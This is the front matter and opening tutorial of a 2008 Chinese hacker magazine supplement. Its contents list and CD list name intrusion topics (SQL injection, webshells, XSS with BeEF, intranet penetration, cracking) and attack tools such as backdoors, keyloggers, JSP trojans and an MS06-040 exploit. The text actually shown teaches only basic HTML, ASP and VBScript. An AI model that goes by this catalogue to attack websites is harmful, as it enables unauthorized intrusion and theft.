# 非安全黑客手册2008第一增刊（上）

---

# 八大专题：武装知识

+   - 一、入门的选择——ASP 编程攻防浅析
- 二、大型站点最爱——JSP 脚本攻防
- 三、“跨”越新高地——最新 XSS 黑技大曝光
- 四、三言两语说不尽——非主流入侵
- 五、外柔？内刚？——内网渗透攻略
- 六、骑兵手册——挂马技术专谈
- 七、边破边解——Cracker 实例大全
- 八、就在你隔壁——无线破解初体验

猴仔队小道消息：上卷如此精彩，下卷不容错过！等着你的是——超强免杀专辑，实例 + 动画的极致搭配

...最后，特别感谢各文作者给予《非安全》的信任和支持，我们将携手为广大 HACK 爱好者带来更多实用知识，一起与技术进步，一起享受技术带给我们的快乐。在以后的岁月里，《非安全》会一如既往地关注技术，关注 HACK，关注安全，关注网络，关注一切……

眼镜猴乱笔于 2008 年奥运结束，国庆前夕，神七上天之际……

# 目录

# 入门的选择——Asp 编程攻防浅析

作者: 冰域剑客

一、Asp 简介 …………………………….. .07

二、Html 标记 …………………………….. .08

1、文件标记 …………………………….. .09

2、排版用标记 …………………………….. .10

3、表单标记 …………………………….. .10

三、Vbscript 介绍 …………………………….. .11

1、判断结构 …………………………….. .13

2、循环结构 …………………………….. .15

四、Asp 内置对象 …………………………….. .16

1、request 对象 …………………………….. .17

2、response 对象 …………………………….. .18

五、Asp 程序攻防 …………………………….. .19

1、暴库漏洞的原理分析及利用 …………………………….. .19

2、ACCESS 注入 …………………………….. .21

3、Mssql 注入 …………………………….. .24

4、SQL 防注入 …………………………….. .26

5、webshell 的获取 …………………………….. .26

6、Session 的欺骗和注入 …………………………….. .29

7、cookies 注入和欺骗 …………………………….. .30

8、任意文件下载漏洞 …………………………….. .32

9、结语 …………………………….. .33

## 大型站点最爱——JSP 脚本攻防

作者: 落叶纷飞[J.L.S.T] @ 肇庆

一、JSP 语言概述 …………………………….. .35

二、JSP 环境的搭建 …………………………….. .36

三、JSP 语言入门 …………………………….. .45

四、JSP 漏洞综述 …………………………….. .51

1、上传漏洞 …………………………….. .51

2、跨站漏洞 …………………………….. .55

3、注入漏洞 …………………………….. .57

## “跨”越新高地——最新 XSS 黑技大曝光

作者: 漫无目的

一、认识 XSS …………………………….. .73

二、XSS 的触发条件 …………………………….. .75

三、如何突破限制 …………………………….. .76

四、举例 …………………………….. .77

1、Referer XSS …………………………….. .78

2、框架跳转攻击 …………………………….. .82

3、JS 流注入攻击 …………………………….. .83

五、玩转 BEEF …………………………….. .83

## 三言两语说不尽——非主流入侵

作者: 落叶纷飞[J.L.S.T] @ 肇庆

一、入侵网站方法综述 …………………………….. .90

二、脚本入侵基础 …………………………….. .90

1、利用注入漏洞入侵网站 …………………………….. .91

2、利用上传漏洞入侵网站 …………………………….. .93

3、利用 %5c 暴库漏洞入侵网站 …………………………….. .94

4、利用第三方 WEB 程序入侵网站 …………………………….. .96

三、入侵思路实例赏析 …………………………….. .98

1、入侵实例赏析一之利用旁注拿下目标网站 …………………………….. .98

2、入侵实例赏析二之另类拿 webshell 方法搞定目标 …………………………….. .102

3、入侵实例赏析三之 %5c 暴库与数据库插马完美配合拿下目标 …………………………….. .106

4、入侵实例赏析四之利用傲游和迅雷辅助入侵 …………………………….. .107

5、入侵实例赏析五之利用社会工程学拿下目标 …………………………….. .109

6、入侵实例赏析六之第三方程序缺陷配合 SQL 注入漏洞拿下目标 …………………………….. .113

7、入侵实例赏析七之利用嗅探攻击拿下目标站点 …………………………….. .115

4、逻辑型漏洞 …………………………….. .58

5、简单分析 “彩森视频网络电台” …………………………….. .58

五、入侵 JSP 网站的方法总结 …………………………….. .61

1、源代码泄漏漏洞 …………………………….. .61

2、目录遍历漏洞 …………………………….. .62

3、确定服务器架设软件 …………………………….. .62

4、拒绝服务漏洞 …………………………….. .63

5、JSP 黄金搭档 Oracle 的安全隐患 …………………………….. .63

6、Tomcat 的安全隐患 …………………………….. .66

7、谈 JSP 网站的服务器安全 …………………………….. .70

六、后记 …………………………….. .70

七、参考文献 …………………………….. .70

## 外柔？内刚？——内网渗透攻略

作者: 樱花浪子

+   一、内网基础 …………122

+   二、获取密码 …………126

+   三、开始渗透 …………130

# 光盘目录

[友情提示] “虚拟机软件” 用于在一台电脑的硬盘中虚拟出多台主机系统，大家可以用来搭建不同的主机系统平台进行网络实验，首次使用它的朋友可阅读简明教程；另外，光盘中的ZIP/RAR文件可使用WINRAR解压。

## 入门的选择——ASP 编程攻防浅析

+   - 微软Vbscript手册
- 本章节中内容所涉及的相关代码及实例
- 老兵的cookies修改工具
- D_SQLTools 完美验证版
- IE恶搞迷
- ASCII码转换工具
- Netbox：一款小巧的ASP服务器程序
- 手工注入工具

## 大型站点最爱——JSP 脚本攻防

+   - apache服务器软件
- mod_jk2.dll (mod_jk2模块)
- apache-tomcat-5.5.26服务器
- apache-tomcat-5.5.26-admin服务器管理
- mysql-connector-java-5.1.6JDBC驱动
- mysql-essential-5.0.27-win32数据库服务器
- Oracle专用注射器
- lcx 海阳顶端网jsp暴源码及目录网页
- NBS13.0 网站漏洞检测
- pangolin_1.3SQL 注入工具
- JAVA 开发工具包JDK
- jsp木马WAR包: job.war、nohack.war
- Tomcat 扫描器
- Tomcat 弱口令扫描软件
- Tomcat 自动攻击器v1.2

# '跨'越新高地——最新XSS黑技大曝光

+   - Beef：国外大牛写的非常厉害的一个浏览器劫持的程序

## 三言两语说不尽——非主流入侵

+   - NBS13.0 网站漏洞检测
- 啊D 注入工具2.31修正版
- 黑客必备工具nc
- Domain3.5旁注
- Hdsi3.01 漏洞自动入侵器
- pangolin_1.3SQL 注入工具

# 外柔? 内刚? ——内网渗透攻略

+   - WSE 抓包工具
- IISPutScanner 漏洞扫描
- Cain4.9released 嗅探工具
- WinPcap_4_0_1 驱动
- 脚本文件: xiaoma.asp/ys.asp/cmd.asp/down.asp
- 20CN_IPC_扫描器
- cain4.9.18 嗅探工具
- hd 后门
- lc5 密码破解
- lcx 端口转发工具
- ms06040 利用
- MT 网络管理
- ngnss-v7.1 键盘记录
- opents3389开3389 工具
- sam 工具
- SocksCapV2.38 代理跳板
- wrsky3389开3389 工具
- 教主内网映射
- 记录3389密码
- 记录3389 密码发信版

## 骑兵手册——挂马技术专谈

+   - 修改文件最后修改时间工具
- 修改文件修改日期工程
- ASP 封包教程
- asp 封包dll 工程
- IIS_ 挂马工具
- dll 监控封包

## 边破边解——Cracker 实例大全

+   - keymake1.73 注册机编写器
- ODbyDYK v1.10[12.25]分析调试工具
- 补丁工具 DUP V2.16 汉化特别版
- 查壳工具 peid 0.94
- PE 编辑工具 LPE-DLX
- 输入表修复 ucfir16f
- DeDeDark 专业反编译DELPHI 工具
- .net 反编译Reflector
- Aspack v2.12 脱壳机 – 支持DLL 脱壳
- VBExplorer 1.0 反编译VB 程序
- 文章中11 个实例所运用到的工具及样本程序

## 就在你隔壁——无线破解初体验

+   - peekres 汉化包
- WildPackets_OmniPeek_Personal41 网络故障分析软件
- winaircrack 无线路由破解
- 相关驱动

# 入门的选择 -- Asp 编程攻防浅析


# 入门的选择 --Asp 编程攻防浅析

ASP 是我们平时接触得最多的脚本程序之一，很多从事网页编程的朋友都是通过 ASP 入门的。对于研究黑客技术的朋友，我们入侵的第一个网站，也许多半都是 ASP 的。既然 ASP 的

应用这么广泛，那么我们应该增加一些对 ASP 编程本身和 ASP 程序的入侵及防护方面的认识。相信这个专题是很多朋友感兴趣的，为了照顾一些基础较差的朋友，我们从最简单的开始讲起。

### 一、ASP 简介

「小知识」
ASP 是 Microsoft Active Pages 的简称，内含于 Internet Information Server (IIS) 当中，提供一个服务器端（server-side）的 scripting 环境，让你产生和执行动态、交互式、高效率的站点服务器的应用程序。

你不必担心浏览器是否能执行你设计出来的 ASP，你的站点服务器会自动将 ASP 程序解释为标准 H T M L 格式的主页内容，然后再发送到用户端的浏览器上显示出来，用户端只要使用常规可浏览 H T M L 页面的浏览器即可浏览 ASP 所设计的主页内容。

事实上，ASP 并不是真正意义上的语言，它使用的语言是 jscript 和 VBScript。ASP 程序很容易开发和修改，用任何可以编辑文本的程序就可以，例如记事本。学习过 v b 的朋友在学习 ASP 时，上手是非常快的，就像某位牛人所说的那样，他两天就学完 ASP 了！所以我相信，朋友们在短时间内学好 A S P 不是难事。

ASP 程序是在服务器上执行的，我们首先介绍下 ASP 服务器的安装。用 W I N X P 的安装光盘可以安装 I I S 服务器，不过这个过程有点麻烦，所以给大家推荐一款小巧的 A S P 服务器程序：Netbox，它的安装程序只有 1 . 8M 。运行程序进行安装，如图 1 所示，大多数情况，我们一路点击 “next” 就可以了。



记得要把程序安装到系统盘所在的 Program Files 目录里，例如你的系统装在 D 盘，

[PAGE 7]

# 非安全·黑客手册2008第一增刊

Netbox就一定要安装到D:\Program Files目录里，如图2所示。安装完成后，我们来到netbox的目录里，复制出Samples文件夹下的WebServer文件夹到任意一个磁盘中。


接下来运行main.box文件，此时屏幕右下角会出现加载的netbox图标，这表明安装成功。我们来检验一下效果，在浏览器地址栏里输入http://localhost或者http://127.0.0.1，出现如图3所示的页面，表明ASP程序已经成功执行。



ASP服务器搭建成功后，我们先来写个简单的ASP程序，让大家感受下ASP的魅力吧！在记事本或者其它网页编辑软件中写下如下代码：

```
<%
for i=1 to 10
randomize
%>
<font size=<%=int(rnd*7)%>>你好</font>
<%next%>
```

将这段代码命名为001.ASP保存到wwwroot目录下，我们访问下看看效果，如图4所示。



大家可以看到，“你好”这两个字的字体大小是变化的，而且程序输出了10个“你好”。我们简单地来说明下这段代码：

ASP的程序代码都必须放在<%和%>这两个起止符之间；For i=1 to 10和next配合起来是一个循环语句，意思是让程序循环执行十次位于他们之间的相同代码；<font>是用来设置字体的标记，其中size参数的值用来表示字体的大小；rnd表示0到1之间的随机数；randomize是使每次生成不一样的随机数，如果没有它，那么每次产生的随机数都是一样的。

这段代码在我们了解了H T M L标记和一些脚本命令后就很容易理解，大家将这个程序做为自己写的第一个A S P程序吧。

# 入门的选择 --Asp 编程攻防浅析

是融合在 HTML 基础上运作的，希望朋友们可以记住并熟练掌握。

HTML 标记都是由尖括号 “<” 和 “>” 构成，例如<p>。有些标记是有参数的，例如<font size=3>你好</font>，其中的 size 是字体的一个参数。HTML 标记有许多，下面介绍几种大家会经常见到的。

### 1. 文件标记

文件标记有<HTML>、<head>、<title>和<body>，下面的代码是 HTML 文件的基本结构：

```
<HTML>
<head>
<title>网页的标题</title>
</head>
<body>
网页的内容
</body>
</HTML>
```

整个网页处于<HTML>和</HTML>之间，表明它是一个 HTML 文档；<head>和</head>之间为页面开头，而<body>到</body>之间的内容称为正文。<title>和</title>之间的文字是网页标题，用来显示在浏览器的顶部左端。

<body >是具有一些参数的，我们来熟悉下，请看如下代码：

```
<body text=red link=blue alink=yellow vlink=green background="bg.jpg" bgcolor=white>
```

Text 是设置文字的颜色；Link 设置的是一般文字连接的颜色，alink 为按下连接时的颜色，vlink 是连接被点了之后的颜色；Background 是设定页面背景的，这里用的是 bg.jpg 这张图片；B g c o l o r 可以设置网页背景的颜色，大家可以任意更改参数的值，颜色可以用名称，如 red、black、Lightgreen 等来表示，也可以用数值来表示，例如 # 000000 表示黑色。同时我们还可以用 rgb 值来表示颜色值，这个一般用得很少，我们就不说明了，请看下面的例子：

```
<HTML>
<head>
<title>黑客手册</title>
</head>
<body bgcolor=black text=white>
打造专业的黑客网站, 黑客论坛, 黑客门户
</body>
</HTML>
```

这段代码是将页面中的背景颜色设置为黑，文字颜色设置为白，页面标题显示“黑客手册”。我们浏览下看看效果，如图 5 所示。



### 2. 排版用标记

(1) 注释标记：注释标记的格式是<!-- 注释的内容 -->，注释就是在代码中对代码进行说明的语句，它的内容是不会显示在网页上的。

(2) 换行标记：格式是<br >，作用是换行并将后面的内容在下一行显示。如果我们直接在记事本中写下“黑客”后按回车，再写入“手册”，那么它们在网页上显示时会连在一起，只有用了换行标记，才会有换行的作用。例如我们输入：黑客<br >手册，运行后的效果如图6所示，变成两行文字了。



(3) 水平线标记：它的作用是插入一条水平线，一般是要带参数设置的。例如：<hr size=3 width=50% color=red>，其中的size是设置线的厚度；width是设置线的长度；color是设置线的颜色。含有以上代码的页面运行后的效果如图7 所示。



(4) 居中标记：它的格式是<center>居中的文字</center>，这是一个围堵标记，也就是说它是由一个开始标记和终止标记来组成。<center>为开始标记，而在标记前面加一个“/”（左斜线）就是终止标记，这里相应的就应该是</cener>。要居中的内容放在它们之间就可以了，如果不加这个标记，内容都是默认从页面最左边开始显示。

(5) 字体标记：相对来说，字体标记用得较多，我们最常用的是<font>显示文字</font>。它有几个参数，例如：<font face=



对于字体的效果，我们可以使用<b>文字</b>粗体标记，或<i>文字</i>斜体标记来进行设置，分别可以将标记所包含的文字显示为粗体或斜体。

### 3. 表单标记

下面我们来学习动态网页中最重要的标记：表单标记。表单是用来收集和传递信息的，这也是动态网页编程的基础，以此来实现客户端和服务器端的交互。<form >是表单标记，用来表示表单模式，相当于一个容器标记，其他的表单标记都要放在它里面才有用。另一个表单标记是<input >，用它来设定信息输入的方式，属于空标记。我们先来看一个例子，代码如下：

```
<form action=hacker.ASP method=post>
</form>
```

以上代码中，action= 后面的地址表示接收数据的 ASP 文件的地址，可以用相对路径，也可以用绝对路径。如果接收页面和提交页面在同一目录下，我们用文件名就可以了。

Method 参数表示数据传递的方式，可以为 post 或者 get 方式。一般我们看到地址栏中的 XXX.ASP?id=1 这种数据传递方式就是以 get 方式传递的参数。如果用 post 方式提交数据，后面是不会跟一个参数的。利用 p o s t 方式可以提交大量数据，而 g e t 方式只能够提交少量的数据。

这里的 <form></form> 表单是一个容器，我们还可以将其它的标记放在其中。例如要提交用户名和密码，就可以在其中输入相关代码：

```
<form acition=hacker.ASP method=post>
请输入用户名: <input type=text name=username><br>
请输入密码: <input type=password name=password><br>
<input type=submit vule=" 提交数据 " />
</form>
```

这是一个最简单的表单，我们来看看运行后效果，如图 9 所示。

<input>是用来设定信息输入方法的，它的参数 type（类型）可以设置成 text（文本）、submit（提交按钮）、button（普通按钮）、reset（重置按钮）和 hidden（隐藏传递的参数）。

Name 是文本框的名字，接收数据的 ASP 程序要以 name 的值来判定你提交的是什么数据，例如 name=username 表明你提交的是用户名。如果这里的 name 和接收页面中的值不一样，那么程序就不能成功接收到这条数据，例如你提交的是 user，而程序接收的是 username，那么最终程序接收到的 username 值为空。

我们还可以在这些标记后面添加 disabled 属性，将其设置成不可用。例如将那个提交数据的按钮设置成不可用，代码如下：<input type=submit value=" 提交数据 " disabled>，
页面显示效果如图 1 0 所示。

H T M L 的标记我们就介绍这些，它们都是最常用到的，大家一定要熟练掌握，能够了解其书写格式和相应功能，在以后的代码分析中，这是很重要的。

### 三、VBScript 介绍

脚本语言是 ASP 程序运行的基础，ASP 程序就是由文本、HTML 标记和脚本组合而成的。
VBScript 和 JavaScript 都是很流行的脚本语言，我们来了解一下 VBScript 脚本，这里又要将它分为服务器端脚本和客户端脚本。所谓的服务器端脚本就是指脚本程序是在服务上执行的，
而客户端脚本则是在客户端的本地浏览器里执行。

我们先来写一段简单的客户端脚本，代码如下：

```
<script language=VBScript>
Sub button1_onclick
Msgbox "你单击了按钮"
End sub
<form name=form1>
<input type=button name=button1 value="点击一下">
</form>
</script>
```

运行包含这段代码的页面，单击“点击一下”按钮，效果如图11所示。



我们可以看到，客户端脚本是放在< script >和</ script >之间的，而language=VBScript则声明了脚本使用的是VBS cript语言，如果是使用JavaS cript脚本，我们则可以设置language=JavaScript。事实上浏览器是可以自动识别脚本语言类型的，但是我们不能在一段脚本中将VBScript和JavaS cript混用，那样程序就无法判定到底是哪种语言，导致运行出错。
Sub和end sub之间为一个sub过程，这里是响应button1的onclick事件，也就是button1这个按钮被按下去触发的事件。一旦按钮被按下去，就触发并运行后面的代码。

Msgbox是消息框，也就是messagebox，它可以让程序弹出一个提示框，这里弹出的是默认类型的提示框。事实上，VBScript里面有很多种提示框，用得最多的是vbinformation消息提示框和vbcritical警告提示框，我们只要修改一下Msgbox的参数属性，就可以弹出不同类型的消息框，示例如下：

```
Msgbox "你单击了按钮",vbinformation," 标题"
```

弹出消息类型提示框，运行结果如图12所示。





```
Msgbox "你单击了按钮",vbcritical," 标题"
```

弹出警告类型提示框，运行结果如图13所示。

在VBScript中我们还可以由客户端输入数据，相关代码如下：

```
<script language=VBScript>
dim name //这里是声明一个变量name
name=inputbox("请输入你的名字","这里是标题") //将输入的值赋给name
msgbox "你的名字是 " & name //弹出提示, 你的名字是XXX
</script>
```

运行此代码后，程序弹出一个输入框要求输入数据，如图14所示。代码中inputbox后的括号里面分别是设置的标题和提示内容；dim是声明一个变量的意思，同时为这个变量初始

### 4. VBScript 控制结构

化赋值。如果声明变量为string（字符串），则初始赋值为空；如果声明为Integer（整数），那么就初始赋值为0。

